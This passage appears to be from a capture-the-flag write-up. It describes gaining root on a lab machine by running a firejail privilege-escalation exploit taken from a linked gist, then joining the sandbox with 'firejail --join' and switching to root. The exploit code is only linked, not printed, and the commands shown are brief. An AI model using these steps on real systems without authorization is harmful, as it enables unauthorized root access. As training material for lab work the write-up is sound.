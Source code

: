 First we need to create a exploit , I copy the code of this website and create a file called "exploit.py" and I add the permisions to execution with chmod u+x :

[https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25)

This given me an output like this one :
```
You can run 'firejail --join=43597' in another terminal a shell where 'sudo su -' should grant you a root shell
```

So I just did it , I went to the machine from another ssh session and then I execute:
```
firejail --join=43597
```
And then 
```
su-
```

And finally become root.